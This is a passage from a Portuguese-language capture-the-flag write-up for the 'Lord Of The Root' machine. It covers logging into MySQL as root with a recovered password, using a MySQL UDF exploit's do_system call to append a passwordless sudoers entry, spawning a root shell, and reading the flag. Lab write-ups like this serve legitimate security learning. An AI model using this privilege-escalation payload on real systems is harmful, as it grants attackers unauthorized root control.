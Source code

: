 Aí está, parece que a credencial do root é `darkshadow`. Me logo e checo a versão:

```
Your MySQL connection id is 9410
Server version: 5.5.44-0ubuntu0.14.04.1 (Ubuntu)                                                                                                                                                                                                                                                                                                
Copyright (c) 2000, 2015, Oracle and/or its affiliates. All rights reserved.                                                                                                                                                                                                                                                                    
Oracle is a registered trademark of Oracle Corporation and/or its                                                                                                                                                                                                              affiliates. Other names may be trademarks of their respective
owners.                                                                                                                                                                                                                                                                                                                                         
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.                                                                                                                                                                                                                                                                  
mysql>
```

8) A partir daí lembrei da sala `Linux PrivEsc` do TryHackme, `Task 2` e só segui novamente o que estava ali, alterando só o payload (https://www.exploit-db.com/exploits/1518):

```
select do_system('echo "smeagol ALL =(ALL) NOPASSWD: ALL" >> /etc/sudoers');
```

9) Chamo o bash via sudo `sudo bash` e agora eu sou o Lord Of The Root kkkkk, tenho a flag:

```
root@LordOfTheRoot:/root# cat Flag.txt
“There is only one Lord of the Ring, only one who can bend it to his will. And he does not share power.”
– Gandalf
```
